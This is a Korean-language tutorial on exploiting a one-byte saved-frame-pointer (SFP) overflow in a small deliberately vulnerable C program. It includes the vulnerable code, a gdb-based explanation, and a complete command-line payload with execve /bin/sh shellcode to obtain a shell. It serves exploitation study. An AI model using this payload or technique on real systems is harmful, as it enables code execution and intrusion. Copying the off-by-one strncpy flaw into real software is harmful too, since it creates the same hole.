 # SFP overflow

다음의 c 코드로 만들어진 실행파일에 sfp overflow 방식을 이용하여 shell을 따보도록 하겠다. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void func(char *src)
{
        char buffer[40];
        strncpy(buffer, src, 41);
        puts(buffer);
}

int main(int argc, char *argv[])
{
        if(argc<2){
                printf("argv error\n");
                exit(0);
        }

        func(argv[1]);
}
```

gdb를 이용하여 func 함수를 disassemble 해보면 다음과 같은 결과가 나온다.

![func](img/sfp1.PNG)

눈여겨 보아야 할 점은 27번 줄로 버퍼의 시작주소(ebp-0x28)이 push 된다는 점이다. 이로써 buffer 앞에는 buffer의 시작 주소가 위치하게 된다. 우리는 목표는 sfp를 조작하여 ret 주소가 바로 buffer 시작주소가 되도록 하는 것이고 SFP가 pop소 후(leave) RET가 pop된다는 것(ret)을 이용할 것이다. 따라서  SFP가 버퍼의 시작주소가 저장된 위치에 + 4byte 된 주소가 되도록 끝자리만 수정하고 buffer의 경우 shell코드로 채워주면 될 것이다. 

완성된 payload는 다음과 같다.

```bash
./sfp_overflow `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*15+"\x2c"'`
```

성공하면 다음과 같이 shell을 획득할 수 있다. 

![성공화면](./img/sfp2.PNG)